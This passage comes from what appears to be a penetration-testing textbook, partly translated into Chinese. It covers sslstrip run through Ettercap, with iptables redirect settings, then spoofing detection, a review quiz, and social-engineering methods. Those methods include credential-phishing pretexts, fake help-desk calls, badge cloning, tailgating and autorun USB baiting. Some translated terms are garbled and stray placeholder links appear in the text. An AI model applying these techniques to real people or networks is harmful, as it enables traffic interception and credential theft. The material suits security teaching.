正如我们在进行 DNS 劫持时所做的那样，`sslstrip` 需要我们在 `ARP` 劫持上就位。我们可以使用 `Ettercap` 来实现，方法与之前相同。我们需要像以前一样伪造 Internet 网关。我们在设置 `ARP` 劫持攻击时也需要监听远程连接。`sslstrip` 是 `Ettercap` 的一个插件，因此可以像启用 DNS 劫持插件一样启用该插件。这需要在 `Ettercap` 之前对其进行配置更改。`sslstrip` 需要知道所使用的防火墙命令，以便在防火墙上设置重定向。下面的行在 `/etc/ettercap/etter.conf` 文件中被注释掉了。如果你使用的是 `iptables`（这比 `ipchains` 更可能），则需要取消这些行的注释。

`/etc/ettercap/etter.conf`

```
# if you use iptables:
redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"
redir_command_off = "iptables -t nat -D PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"
```

完成这些配置后，`sslstrip` 插件即可启用。它会执行 `iptables` 命令以启动重定向，从而让插件能够接收消息。下面是 `Ettercap` 内 `sslstrip` 开始运行的日志示例。

## 在 `Ettercap` 中运行 `sslstrip`

```
Host 192.168.86.1 added to TARGET1

ARP poisoning victims:

GROUP 1 : 192.168.86.1 18:D6:C7:7D:F4:8A

GROUP 2 : ANY (all the hosts in the list)

Activating sslstrip plugin…
SSLStrip plugin: bind 443 on 59273
SSLStrip Plugin version 1.1 is still under experimental mode. Please reports any issues to the development team.
DHCP: [192.168.86.1] ACK : 0.0.0.0 255.255.255.0 GW 192.168.86.1 DNS 192.168.86.1 "lan"
```

一旦 `iptables` 规则已就位，`sslstrip` 应该能够捕获所有 HTTPS 流量。不过，这前提是 HTTPS 连接使用的 SSL/TLS 版本易受 stripping 攻击影响；如果不是，则不会有任何流量。

## Spoofing Detection（欺骗检测）

网络运营商和安全专业人员需要能够检测欺骗攻击。一个优秀的欺骗攻击可能在用户层面不可见，这意味着必须在网络层面进行检测。这可能来自于使用网络入侵检测系统（IDS），但你仍需了解这些检测是如何工作的。首先，让我们从 ARP 欺骗入侵说起。正如你所见，ARP 欺骗依赖于攻击者发送大量 ARP 响应。用户看不到这些操作，但网络监控会显示大量的 gratuitous ARP 消息。这表明 ARP 欺骗正在发生，并提供攻击者的 MAC 地址。

仅凭二层地址（MAC 地址）并不能提供太多信息。大多数人无法仅凭 6 字节的 MAC 地址立即判断其所属系统。可以取前三个字节（OUI）进行查找，因为前三字节是组织唯一标识符。使用如 `wireshark.org` 所提供的 OUI 查找工具，可以得到网卡制造商的信息。例如，我的网络中某系统的 MAC 地址为 `70:4d:7b:6d:52:6a`，查询后发现制造商是 ASUSTek，因为网卡是由 ASUS 主板制造的。

MAC 地址本身并不足以定位，尤其是当网络中所有设备来自同一制造商时。你只知道制造商，而许多公司会从单一或少数制造商处采购全部或大部分计算机。此时你可能需要在网络中搜索该 MAC 地址。你的交换机始终维护 MAC 地址到端口号的映射。找到对应的交换机端口后，你可以确定该端口连接的是什么系统。如果端口连接的是非管理的端口或中间的交换机，则需要进一步追踪，最少可以沿着交换机端口或其连接的线缆进行追踪。

你可能需要在网络层（IP 地址欺骗）进行检测，尤其是在拒绝服务攻击（DoS）的情形下。这通常由路由器处理。如果路由器已配置逆向路径验证（reverse path verification），它可以通过在路由表中查找源地址来判断响应包应通过哪个接口发送。如果报文进入的接口与预期的出站接口不同，则有可能是欺骗包。

DNS 劫持检测相对困难，尤其是当攻击者使用其他方式捕获出站 DNS 请求时。若出站请求的 IP 地址与入站响应的 IP 地址一致，则可能安全；若不一致，则也可能安全——这听起来有点矛盾。DNS 的问题在于响应可能来自不同的地址，取决于 DNS 服务器的配置。更好的做法是使用本地 DNS 服务器，并将其配置为使用 TCP 而非 UDP。TCP 的三次握手能够更好地防止欺骗，或至少在防欺骗方面优于 UDP。你还可以确保本地 DNS 服务器启用 DNS 安全扩展（DNSSEC），通过对所通信服务器进行 cryptographic verification。

DHCP starvation 攻击也可以被检测。如果突然出现来自意外 IP 地址的 DHCP 响应，这很可能是恶意活动。这可能是 DHCP starvation 攻击的结果，也可能是攻击者在本地网络部署一个 DHCP 服务器，因为某些本地设备会充当 DHCP 代理，将请求转发到远程服务器。本地服务器响应更快，但如果大量的 `DHCPDISCOVER` 请求从未被接受，则可能是 DHCP starvation 攻击的强烈迹象。

1. 哪个硬件厂商在交换机上使用 `SPAN` 这个术语？

   1. HP  

   2. 3COM  

   3. Cisco  

   4. Juniper  

2. 如果你看到下面的命令行，你捕获的是什么？

   ```
   tcpdump -i eth2 host 192.168.10.5
   ```

   1. 仅来自 192.168.10.5 的流量  

   2. 来自和去往 192.168.10.5 的流量  

   3. 仅到达 192.168.10.5 的流量  

   4. 除去 192.168.10.5 之外的所有流量  

3. 在下面的数据包中，源端口是多少？

   ```
   20:45:55.272087 IP yazpistachio.lan.62882> loft.lan.afs3-fileserver: Flags [P.], seq 915235445:915235528, ack 3437317287, win 2048, options [nop,nop,TS val 1310611430 ecr 1794010423], length 83
   ```

   1. 1310611430  

   2. 272087  

   3. 2048  

   4. 62882  

4. 运行默认 `tcpdump`（不加任何参数）的一个缺点是什么？

   1. DNS 请求  

   2. 信息不足  

   3. 序列号不显示  

   4. `tcpdump` 在没有额外参数的情况下不运行  

5. Berkeley Packet Filter 在哪个协议层工作？

   1. 互联网层  

   2. 传输层  

   3. 数据链路层  

   4. 协议层  

6. 什么是没有对应 ARP 请求的 ARP 响应？

   1. Is‑at 响应  

   2. Who‑has ARP  

   3. Gratuitous ARP  

   4. IP 响应  

7. 哪个 Wireshark 功能会为数据包捕获中按协议层排序的每个协议提供百分比？

   1. Conversations  

   2. Endpoints  

   3. Protocol hierarchy  

   4. Statistics view  

8. 如果你想只打印捕获包中的特定字段，应该使用哪个程序？

   1. `fielddump`  

   2. `tcpdump`  

   3. `wiredump`  

   4. `tshark`  

9. 下面的时间戳显示的是什么？

   ```
   630    41.897644    192.168.86.210    239.255.255.250    SSDP    750    NOTIFY * HTTP/1.1    [ETHERNET FRAME CHECK SEQUENCE INCORRECT]
   ```

   1. 自 1970 年以来的时间  

   2. 一天中的时间  

   3. 自包开始以来的时间  

   4. 这里没有时间  

10. 这段摘要中使用的协议是什么？

    ```
    719    42.691135    157.240.19.26    192.168.86.26    TCP    1464    443 → 61618 [ACK] Seq=4361 Ack=1276 Win=31232 Len=1398 TSval=3725556941 TSecr=1266252437 [TCP segment of a reassembled PDU]
    ```

    1. TLS  

    2. UDP  

    3. IP  

    4. TCP  

11. 哪个程序可以用于进行欺骗攻击并且支持插件？

    1. `arpspoof`  

    2. `fragroute`  

    3. Ettercap  

    4. `sslstrip`  

12. 在使用 Ettercap 进行 DNS 欺骗攻击前，你需要做什么？

    1. 设置端口镜像（port span）。  

    2. 启动 Wireshark。  

    3. ARP 欺骗。  

    4. 配置 `sslstrip`。  

13. 哪个命令行参数用于在 `tcpdump` 中禁用名称解析？

    1. `-n`  

    2. `-i`  

    3. `-r`  

    4. `-x`  

14. 为什么在层 4 可能会显示比层 2 更多的端点？

    1. 层 4 通过层 2 复用。  

    2. 系统可能会向同一主机发起多个连接。  

    3. 端口比 MAC 地址更多。  

    4. IP 地址决定端点。  

15. 你会使用 `sslstrip` 做什么？

    1. 获取明文流量  

    2. 移除所有 SSL 请求  

    3. 将 SSL 转换为 TLS  

    4. 将 TLS 转换为 SSL  

16. 为什么可能会遇到 `sslstrip` 的问题？

    1. `sslstrip` 已经被废弃。  

    2. `sslstrip` 不兼容较新的 TLS 版本。  

    3. `sslstrip` 不支持 TLS。  

    4. `sslstrip` 只能与 Ettercap 配合使用。  

17. 下面这行表示什么？

    ```
    Sequence number: 4361    (relative sequence number)
    ```

    这行表示序列号为 4361（相对序列号）。

    1. 显示的序列号并非真实的序列号。

    2. 显示的序列号尚未递增。

    3. 显示的序列号不足。

    4. 显示的序列号是确认号。

18. 关于 Wireshark 提供的 `[TCP Segment Len: 35]`，你能说些什么？

    1. 窗口大小已变化。

    2. Wireshark 推断了该信息。

    3. Wireshark 从头部信息中提取了它。

    4. Wireshark 在下方有更多细节。

19. 端口桥接（port spanning）能克服什么问题？

    1. 交换机不支持第 3 层。

    2. 交换机聚合端口。

    3. 交换机过滤流量。

    4. 交换机不可靠。

20. `/etc/ettercap/etter.dns` 文件的用途是什么？

    1. 为 Ettercap 启用防火墙规则

    2. 配置主机名到 IP 地址

    3. 为 Ettercap 设置邮件

    4. 在 Ettercap 中禁用 ARP 欺骗

21. 如果在 `ifconfig` 输出中看到以下内容，你能说是什么情况正在发生？

    ```
    eth0: flags=8963<UP,BROADCAST,SMART,RUNNING,PROMISC,SIMPLEX,MULTICAST> mtu 1500
    options=50b<RXCSUM,TXCSUM,VLAN_HWTAGGING,AV,CHANNEL_IO>
    ether 14:98:77:31:b2:33
     inet6 fe80::10c6:713a:e86f:556d%en0 prefixlen 64 secured scopeid 0x7
     inet 192.168.1.144 netmask 0xffffff00 broadcast 192.168.1.255
     inet6 2601:18d:8b7f:e33a::52 prefixlen 64 dynamic
     inet6 fd23:5d5f:cd75:40d2:87:38bc:9448:3407 prefixlen 64 autoconf secured
     nd6 options=201<PERFORMNUD,DAD>
     media: autoselect (1000baseT <full-duplex,flow-control,energy-efficient-ethernet)
     status: active
    ```

    1. ARP 欺骗攻击

    2. ARP 洪水攻击

    3. 网络嗅探

    4. 中间人攻击

22. 以下哪项不是 DHCP starvation 攻击对受害者的结果？

    1. 攻击者获取新 IP 地址

    2. 攻击者设置默认网关

    3. 攻击者设置 DNS 服务器

    4. 服务拒绝

23. 如果你在网络中突然看到大量的 DHCPDISCOVER 包，你可能会开始调查什么？

    1. ARP 欺骗

    2. 网络嗅探

    3. DHCP starvation 攻击

    4. DNS 中毒

24. 哪种网络技术让攻击者更难进行嗅探？

    1. 集线器

    2. DHCP

    3. 交换机

    4. 邮件服务器

25. 如果你的 `sslstrip` 会话进行得不顺利，你可能会怀疑什么？

    1. 所有会话都是 SSL v3。

    2. 所有会话都是 TLS v1.0。

    3. 所有会话都是 TLS v1.1。

    4. 所有会话都是 TLS v1.3。

# Chapter 10  

## Social Engineering

At the time this is being written, about 80 percent of attacks are thought to involve social engineering of some sort. This makes learning about social engineering significant. If the attackers are using it, you should be using it too. Ultimately, social engineering attacks are going to be very effective avenues into a network so you can continue to perform testing. This would be especially true when it comes to red teaming, where you are likely to have the cuffs taken off, as it were, and you have more latitude in your tactics.

You may be familiar with some basic social engineering strategies like phishing, simply because it's so common. Social engineering isn't just about sending emails, though. There are other social engineering strategies. Ultimately, any means of manipulating someone to do something they shouldn't or wouldn't otherwise do is social engineering. Social engineering brings in a lot of psychology and elements of human nature, so essentially you are using the way people are against them.


Beyond the basics of social engineering, including how and why it works, there is also social engineering outside the virtual world. A skilled social engineer can get a lot of people to do what the engineer wants them to do. In the digital space, there is phishing, of course, but even phishing can make use of other elements, including rogue websites. Rogue websites may be used even without the phishing component, and they are called *rogue* because either they are controlled by an attacker or there may be malware installed by an attacker within a legitimate website.

Speaking of rogue, an attacker may create a rogue wireless access point. This would be done to lure people to connect to what they believe is a trusted wireless network. Creating rogue networks, as well as other aspects of social engineering, can be automated to take the time out of setting them up. We'll cover all of this over the course of this chapter.

## Social Engineering

Social engineering, regardless of what it was called or how it was thought of, has been around probably as long as humans have been around. You may call it manipulation if you like, but in the information security community, it's called *social engineering*. The objective is to convince or manipulate someone into doing something they wouldn't normally do for someone they don't know. There are a number of techniques for doing that. They are generally considered to be related to the science of influence. Robert Cialdini proposed six principles as part of his theory of influence. They are as follows, and understanding these principles may help you start to understand how to influence or manipulate people:

-   **Reciprocity**   People will generally feel like they want to or may be obligated to respond to a kindness or favor. You may feel this way if a company gives away free samples. If you get one of these free samples, you may be inclined to feel like you should buy the product in response.

-   **Commitment**   If someone commits to something, either in writing or orally, they are more inclined to follow through on that commitment.

-   **Social Proof**   Think about social proof as peer influence. If you see someone else doing something, such as using a product, you will see that it is acceptable to do that. You may therefore be more willing to try the product, or whatever it is you've seen.

-   **Authority**   If you've ever been pulled over by the police, you can recognize this one. Even if you haven't, you may think back to being at school. In general, people are inclined to follow authority figures and do what they say or ask.

-   **Liking**   If you like someone, you may be more easily swayed by what they think or do.

-   **Scarcity**   This is easy to recognize. Think about Cabbage Patch Kids, if you go back that far, and also many of the product rollouts by Apple. The lack of availability of these products increases their perceived value. The perception of increased value makes them more desirable.

Many of these go back to the early origins of humanity. Think about social proof as an example. If you were to see your neighbor eating something and then not dying, you would be more inclined to eat that thing yourself. You have proof that it's safe. Similarly, humans have long relied on one another to survive. If your neighbor does something for you, you would do something for them because that is how communities work. Essentially, these are deep‑seated modes of behaving because of the way our brains and neurochemistry work. We are wired to be susceptible to social engineering and scams because from an evolutionary standpoint we needed one another to survive, so trust is important.

-   [信息是社交工程的主要目标](https://example.org)。这意味着攻击者试图让某人提供他们不应该提供的信息。可能是用户名和密码，也可能是其他个人信息，例如社会安全号码或信用卡号码。当然，信息并不是使用社交工程的唯一原因。你可能想让某人访问一个网站，在那里等待另一次攻击。你也可以让某人打开一封电子邮件。

-   考虑一下“爱你病毒”。病毒需要用户介入才能在系统之间传播。爱你病毒利用了电子邮件客户端的一个漏洞，使得病毒可以利用通讯录向所有联系人发送消息。在病毒运行之前，有人必须被说服去打开电子邮件并运行消息中包含的脚本。正如你在 Figure 10.1 可以看到的那样，主题行是 ILOVEYOU。想象收到一个你认识的人发来的邮件，主题正是这个。你大概率会打开这条消息。消息会让你打开附件的“文本”文件。事实上，这也是社交工程的另一个方面。Windows 系统会隐藏已知文件类型的文件扩展名。你在消息中看到的是 `LOVE‐LETTER‐FOR‐YOU.txt`，但实际上实际文件扩展名是 `.vbs`。它只是被隐藏，让你误以为是文本文件。


**FIGURE 10.1** I Love You virus

-   社交工程有无数种例子，你日常生活中也会经常看到。当涉及到社交工程时，做好准备、思考自身情况并不期待能够随心所欲地应对可能是最好的做法。

### Pretexting

-   前文是一种借口或借口的说法，在社交工程的语境中，前文是你为解释接触而编造的故事。用前文进行社交工程攻击的行为称为 *pretexting*。这本质上是你将遵循的脚本。你会在这上面花费相当多的时间，因此需要清楚地理解如何最好地获取你想要的东西。

-   你从你想要从受害者那里得到的东西开始，这将是你故事的基础。例如，如果你想要某人的企业凭证，你就不会打电话称自己是他们的银行。故事必须符合实际情境。一旦你了解你想要什么，你就可以开始构建场景。你应该思考如何“钓”住对方，让他们倾向于与你互动。

-   虽然这看起来像是一次合法的联系，但下面是一个让某人参与的方式示例。它的效果如何是有争议的。最近，我接到一个电话，对方在问是否是 Aaron。我说他有错号码，他回答说他不是，但我可以帮忙。我在那时挂断了电话，但这很可能是一通为募捐而进行的电话，比如警察局基金会之类的，因为其做法与我之前收到的类似电话相同。这也体现了你故事和脚本的重要性。与我在说不存在这个人时犹豫不决不同，他立刻就有了答案。

-   顺便说一下，这类电话引入了“承诺”的概念。他们冷电话并一直跟进，直到你承诺给他们钱。他们知道，如果他们只寄你一封信让你思考，你就不会继续。如果你告诉他们你会通过给他们的事业捐款来跟进，你很可能会真的这么做。

-   在你制定故事的过程中，请记住社交工程的原则。如果你想让某人提供他们的信息，为他们做个忙或至少假装做个忙可以让他们感到欠你情。例如，你可以打电话称自己是公司的客服，注意到你的目标账户出现了很多伪造的登录尝试。你关心他们的个人信息，因为信用卡盗窃非常普遍，更不用说他们系统上存储的其他数据。他们会感激你的“帮助”，觉得你在保护他们的利益。然后，你可以提供帮助确认或甚至更改他们的密码。如果你让他们稍微害怕，可能就能绕过自然的怀疑。

-   同样，当你收到来自 FedEx、American Express、Chase 或其他合法公司的电子邮件时，邮件不只是纯文本。它配有真实的徽标，并且使用了你在收到该公司邮件时会期待的相同字体。它看起来合法，或具有权威性。因为它看起来正确，而且它们很可能提供你想要的东西，所以它们会让你忽略实际的 URL（因为邮件客户端通常会隐藏它），直接点击链接。此时，你会被带到一个恶意网站。

### Social Engineering Vectors

-   一旦你开始考虑所有可能的前文，社交工程的手段就数不胜数。但归根结底，主要有四种被广泛使用的社交工程向量。它们如下：

-   **Phishing**   这个词 *phishing* 源自于 *fishing*，意思是抛出一些诱饵来获取信息。几十年前，人们用 *phreak* 来描述对电话网络进行操纵的人。由此，*fishing* 被改造为 *phishing*。Phishing 是一种通过欺骗性电子通信获取信息的技术。你可能会在电子邮件或即时通讯中看到 phishing 尝试。也可以在社交网络平台上看到。

-   **Vishing**   Voice phishing，或 vishing，是一种常见的做法。这是利用电话来 phish 信息。vishing 攻击也可以用于侦察。你可以用 vishing 获取目标的信息。

-   **Smishing**   这是通过短信（SMS）进行的 phishing。你可能会收到来自陌生号码的短信，里面可能包含链接。在智能手机时代，目标只需点击链接即可被带到网站。

-   **Impersonation**   这是一种常见的手段，我们在前面已经讨论过。这里指的是一种主要是物理向量的手段，你假装成其他人来获取进入建筑物或设施的权限。Impersonation 是许多社交工程攻击的核心组成部分。Impersonation attack 也可以通过网站实现，用户以为自己访问的是某个站点，实际上却访问了另一个站点。

这些只是少数几种攻击向量。大多数都基于通信手段，但其中一种是基于主要是物理机制的——假装成你不是。

### Identity Theft

-   [社交工程攻击的常见结果是身份盗窃。根据 `USA.gov` 的定义，身份盗窃是指某人窃取你的个人信息，意图进行欺诈。](https://wiki.example.org/feynmans_learning_method) 恶意分子企图窃取他们可以用于获取金钱的信息，这可能包括支付卡信息，或个人健康信息，后者可能被用于进行保险欺诈。此外，在数字世界中，身份指的是用户名和密码。访问信息和系统的权限来自身份和访问管理，而当今的身份和访问管理主要基于用户名和密码。本章其余部分主要讨论各种窃取身份信息的技术手段。

-   在防范身份盗窃方面，可以采取很多措施。密码应始终尽可能长且强度高。强度来源于不使用身份相关的元素，例如在密码中不使用社会安全号的一部分。事实上，像社会安全号、出生地或其他生物信息等资料，在未评估来源且确认提问方是否真的需要这些信息之前，不应随意提供。银行信息，包括信用卡信息，应予以保护，而非随意交给任何询问者。

-   身份盗窃/欺诈作为一个产业（即涉及可追踪金钱的欺诈事件），持续增长。虽然不同机构的统计数字可能有所不同，但身份盗窃每年给社会造成数十亿美元的损失，并影响数百万人。对个人的直接损失在几百美元，此外还需投入大量时间进行事后清理。

### 物理社交工程

并非所有信息都是数字化的，并非所有目标都存在于数字领域。在现实中，进入组织的最简便途径往往是通过人。这一点在多年甚至数十年的攻击中屡见不鲜。有时，最有效的方法是通过物理方式与人互动。这可能包括利用语音进行钓鱼攻击（vishing），或是直接出现在某处试图进入设施。你可以通过物理手段进行大量侦察。获得对设施的访问权限意味着你可能看到人们的电脑桌面或白板。许多用户倾向于记录他们认为重要的信息，这有时包括密码。在密码策略严格的情况下，这些政策往往忽视了记忆密码的难度，导致部分用户无法记住密码，只能写下来以提醒自己。

物理访问也是获取计算机系统访问权限的最佳方式。如果你能到达系统，可能会发现它处于未锁状态。也有可能通过移动介质引导系统，窃取或更改密码。这并不意味着进入设施会很容易，因为通常会有多种安全措施阻止此类行为。

#### 徽章访问

徽章访问是一种常见的限制访问权限的方式，即只有获得授权的员工和其他人员才能持有徽章。你可以参考 Figure 10.2 查看徽章的示例。徽章通常包含无线射频识别（RFID）设备，可被徽章阅读器读取。阅读器连接到系统，用于验证你的 RFID 设备（及由此推断的你本人）是否获准进入。如果卡片获准，阅读器会向门锁发送信号以解锁或开启门——这是一种广泛使用的简单流程。


**FIGURE 10.2**  RFID 徽章

尽管该方法常见，但仍存在绕过该门禁装置的风险，从而进入建筑物。首先是跟尾（tailgating）：如果你在入口等待，尤其在员工常规进入建筑的时间段，你可以在有人刷卡开门后跟随其进入。这并不意味着你能够自由进入建筑的所有区域。许多设施在内部门口也设有徽章阅读器。如果允许多个人通过外部门口，你仍可能再次利用跟尾方式进入所需区域。钻墙（piggybacking）类似，但需要员工的同意，而跟尾则不涉及同意。

员工通常会被教育关于徽章访问及跟尾的风险。然而，你会发现有些员工不愿挑战他人以确认其徽章有效性。理想情况下，当有人试图跟尾时，应让其展示徽章，但在我经历的情况中，这种做法并不常见。一些公司可能建议你容忍跟尾行为，随后联系物理安全部门处理，基于如果某人企图恶意进入建筑，其行为可能对员工的身体安全构成威胁，如果员工挑战其进入则可能引发危险。

另一种徽章访问方式是克隆 RFID 卡片。RFID 标签是一种极小的设备，可响应另一设备的查询。虽然标签与阅读器之间存在多种活动/被动交互模式，但最终它们都基于 125 kHz 或 13.5 MHz 频段的无线电波。克隆只需读取目标徽章或设备上的唯一标识符，并将其复制到新徽章、卡片或其他设备上。也有可能利用手机的近场通信（NFC）技术进行克隆。事实上，部分酒店已开始使用该技术，让客人通过手机解锁门。

虽然这不算昂贵，但直接获取他人卡片使用可能更为便捷。一个优势是，虽然徽章上通常带有照片（但不总是），大多数人不会注意照片，也不会要求近距离查看。徽章常常通过腰带夹固定，背面朝外时照片或姓名不可见。这种情况经常出现在带有滚筒的腰带夹上，徽章会因自然摆动而倒转。


虽然绕过徽章访问的方法并不总是容易，但上述跟尾和克隆已是常见手段。不过，使用徽章进入并不总是顺利，因为并非所有公司都允许门一直开启一段时间。

### 人阱（Man Traps）

人阱是一种装置，能显著增加进入建筑物的难度，同时也让进入过程更加危险。如果存在人阱，你将面临两道相隔短距离的门。一旦你通过第一道门进入，就会被困在中间空间，直到第二道门打开。第二道门可能由保安操作，要求验证身份（如核对徽章上的姓名和照片），亦或采用第二种自动化身份验证方式。相比单纯的徽章访问，人阱的安全性更高，这可能是徽章克隆的用武之地，但前提是保安会将徽章与其他身份证明进行核对。

- [其他实现方式](https://example.org)——只允许一个人在同一时间通过门口。你可能会发现有旋转门或闸机，这些设备会根据徽章或其他形式的身份验证来限制进入。闸机可以跳过，但完全封闭的旋转门则是另一回事。这里你无法尾随进入。旋转门一次只允许一个人进入。这类门通常会结合多种机制。第一种是徽章访问。你需要在阅读器上刷一下徽章。刷完后，你需要进入门的机制。一旦系统检测到你在场，就会让门部分旋转，只够让一个人通过。

一种绕过这种限制的方法是使用他人的徽章，在你使用之前。由于你可能时机掌握得不好，需要多次刷卡，这在实际操作中很常见，因此允许多次刷卡。如果你在公司内部有同谋，他们可以先为你刷卡进入，然后在门释放你后立即为自己刷卡。不过，你通常没有内部人员协助，这意味着需要寻找其他方法。

这里轮椅通道法则发挥作用。显然，一扇只能一次让一个人进去（而且经常只勉强容纳背着背包的人）的门，根本无法容纳使用拐杖的人，更别提坐轮椅的人。因此，你可能会发现建筑物设有允许徽章访问的无障碍门。我以前工作的公司就有两扇并排的无障碍门。使用无障碍门刷卡非常方便，并且会在自动关闭前保持开启一段时间，以确保行动不便的人员有足够的时间通过。我们甚至在与供应商午餐时，直接使用这扇门进入停车场，供应商则不必再返回大堂。

有趣的是，这些旋转门可以作为一种“门禁陷阱”运作，即使你通过某种方式未经徽章进入建筑，也会被困在里面，因为要离开需要再次刷卡操作门。下车时同样如此——你需要刷卡，站在感应垫上，门只旋转约四分之一圈，足以让你在另一侧离开。

### 生物识别

到现在你大概已经使用生物识别技术一段时间了。Android 手机多年来就有了人脸识别。Android 与 iOS 设备都支持指纹识别。Apple 几年前推出了 Face ID，试图在实时人脸识别方面做得更好。静态人脸识别的一个问题在于它可能被静态图片欺骗，因此 Apple 引入了活体检测功能，即在识别时会寻找面部的非静态特征，以确认不是照片。Android 也支持通过眼睛和面部进行识别。生物识别是利用唯一属于你的身体特征作为验证手段。只要你用过上述任何方式解锁手机，就已经在使用生物识别。

这是一种物理访问控制方式，可能根本无法绕过。下面是你可能会遇到的一些生物识别类型。

* `Fingerprints` `Fingerprint` 扫描器很常见，部分原因是该技术已有较长历史。指纹识别也存在一些问题，包括读取器可能被高分辨率的复制品欺骗，除非读取器能够考虑体温。体温不是总是可靠的指标，因为它并不恒定（你有没有见过手特别冷的人？）。

* `Iris Scanning` `Iris` 扫描是眼部扫描的更近期版本。虹膜是眼睛中含色的部分，同时会根据瞳孔扩张程度随光照变化。如果你仔细观察自己的眼睛，或更好的是观察他人的眼睛，你会发现虹膜颜色并非单一，而是有纹理图案。正是这个图案被用于身份验证。虹膜纹理对每个人都是唯一的。虹膜扫描的一个优势是使用光线照亮眼睛，因此可以在黑暗环境下工作。

* `Retinal Scanning` 视网膜位于眼球最深处，包含感光细胞，产生冲动供视神经使用。视网膜的血管纹理可用于识别个人。

* `Voiceprint` `Voiceprint` 曾在电影 *Sneakers* 中展示过，如果你还没看过，可以去找找。它包含许多社会工程的想法以及一种非常奇怪的破解方式。声音识别读取器有很多问题。其中之一是你的声音会因多种因素（包括时间）而每天有所变化。感冒也会影响声音，这也是为什么很少有系统采用声音识别作为安全系统的实现原因。

* `Palm Vein Scanning` `Palm` 脉络扫描利用手掌上血管的纹理来唯一标识个体。

* `Gait Recognition` 步态识别系统利用视频记录某人走路的方式来判断是否匹配该个体。步态模式——身体的运动方式以及脚步落地——被认为足够独特，可以用于识别个人。

生物识别系统的有效性取决于成功率和失败率。特别重要的两个指标是假负率。假负率指本应被允许进入的人员被拒绝。虽然这比假正率不那么严重，但假负率仍可能导致需要重新尝试，或在极端情况下需要他人介入。假正率则指本不应获得访问权限的人员成功进入，导致未经授权人员在设施内活动。常用的两个指标是假拒率（FRR）和假接受率（FAR）。

除了上述生物识别，还有 `palm‑print` 扫描仪以及手部拓扑等其他类型。之所以这些类型的生物识别不常见，是因为它们的可靠性不完全。虽然可能存在绕过这些生物识别的方法，但往往更简单的是根本避免进入需要生物识别验证的情境。

### 电话 calls

这并不是像进入设施那样的物理行为，但仍然可以是获取信息的有利途径。如果不是这样，你就不会收到“Windows Support”打电话声称系统收到通知的电话。这里的伪造情境（pretexting）能发挥很大作用。事先进行大量侦察也很有帮助，这样你就不只是知道主电话号码。如果有多个设施，获取它们的电话号码同样有用。这在常见的伪造策略中尤为有效。

- 攻击者可以随意在组织内部拨打电话号码或分机号，声称他们是帮助台或 IT 支持人员。最终，他们会碰巧找到一位正在等待支援回电的目标。用户会对回电表示感激，这让我们回到前面提到的原则。首先，这是互惠原则。他们会对帮助表示感激。一旦人们开始联系帮助台，他们往往会感到受阻和沮丧。这在缺乏经验的用户中更为常见，这类用户通常更需要帮助台支持，并且在即使得到指导的情况下，也可能在执行所需操作时遇到困难。这会使他们对回电尤为感激，尤其是如果你能够解决他们的问题。

- 第二个原则是权威。作为帮助台团队的一员，你拥有他们没有的权限和知识。这意味着你拥有一定的权威。正如前面所述，人们倾向于遵循拥有权威的人的指令。如果你建议需要用户名和密码进行身份验证，他们可能会愿意提供这些信息。

- 公司通常会对员工进行培训，通常是每年一次，帮助他们识别社会工程学诈骗。这可能会让工作变得更难，但并非不可能。拥有合理的故事有所帮助，更甚者，如果你能提供公司内部的细节，向人们炫耀，让他们觉得你真的为公司工作，你会更具可信度。

### 饵诱

人们喜欢免费的东西。如果你曾经参加过 IT 相关的会议或展会，可能会注意到长长的排队人群，等着拿取公司发放的任何东西，不管他们需要与否，也不管是否有用。毕竟，有多少个压力球可以拥有？这有什么相关性？你可以利用这一点。过去，你可以把光盘随意放置，看看人们是否会捡起。给它们贴上点有趣的标签——甚至可以是大热专辑的名称。或者，你可以给它起一个诱人的数据集合的名称。任何能够诱使人们拿起磁盘并插入电脑查看里面内容的手段都可以。当然，如今大多数电脑都没有光驱，随手放置光盘的效果不大。

这并不意味着你不能利用人们喜欢免费物品的事实。比如，如果你看到一根 128 GB 的 USB 盾在停车场，你会怎么做？即使是更小的，你会怎么做？相当数量的人会四处张望，看看是否有谁遗落了它，然后捡起。很多人会将盾插入电脑，要么查看里面的内容，要么格式化后自行使用。毕竟，免费东西，谁不想要一根 128 GB 的 USB 盾来传输或备份数据？

当然，并非任何 USB 盾都适用——尤其是空白的 USB 盾。你需要在盾上植入一些有用的软件，以便为你提供帮助。这可能包括提供对用户系统的远程访问。你不能依赖用户直接运行盾上留下的软件，但你可以利用 `autorun.inf` 文件，让你的程序在插入盾片且启用 autorun 时自动运行。显然，并非所有电脑都支持此功能。常见的硬化措施是防止可移动磁盘自动运行任何内容。

这也是用户常常接受培训的另一领域。不过，如果你让饵诱更具诱惑性，或许可以让人们忽视他们的培训。这些天，大容量 USB 盾价格低廉，因此投资一些并随意放置可能是个不错的选择。

### 尾随

尾随是物理社交工程的常见技术。尾随是指跟随他人进入通常是受限的区域。攻击者无需验证身份即可进入受限区域，如建筑物或内部受保护区。攻击者可能会观察人们通常到达工作地点的时间。在大多数情况下，即使入口需要刷卡开门，门也会在一次刷卡后允许多个人进入。可能是开门的那位本人并不察觉有人在他背后跟随，因为门会慢慢自行关闭，给攻击者大量时间在门完全关闭并锁上之前抢住门。即使开门的那位注意到有人在他背后，攻击者也可以假装自己持有刷卡卡，让人误以为他自己刷了卡。攻击者可能看起来像在寻找刷卡卡，同时利用已开启的门。

尾随利用了人们的社交和助人本性。如果你表现出丢失了刷卡卡，他人可能会出于友好而让你进入，试图提供帮助。此外，人们不太可能对陌生人进行对抗。如果有人尾随，往往不太常见的是持卡人会强制要求尾随者出示刷卡卡，而是直接顺从。根据攻击者的心理状态，这类对抗可能会有不同的后果。一种应对方式是培训员工在发现潜在尾随时联系安保人员报告。

尾随可以通过多种技术防范，例如人狗（man trap）、门关闭计时器以及安保人员的使用。这些措施可以防止同一时间有多个人进入。即使不采用人狗，也可以使用单人入口。可以通过类似于旋转门的设计实现，这种门只允许单向转动，物理空间不足以容纳多于一人的进入。

### 钓鱼攻击

你很可能已经熟悉这些攻击。如果你是安全专业人员，或者只是使用电脑几年的普通用户，你一定见过不少。如果你不确定自己是否见过钓鱼攻击，打开电子邮件程序的垃圾邮件文件夹。在那里你大概率会发现数十封此类邮件。至少应该能够在其中找到一封。如果你没有，感觉错过了什么，你可以让我提供一封。你可以在 [Figure 10.3 看到一封钓鱼邮件的示例。


**FIGURE 10.3** Phishing email

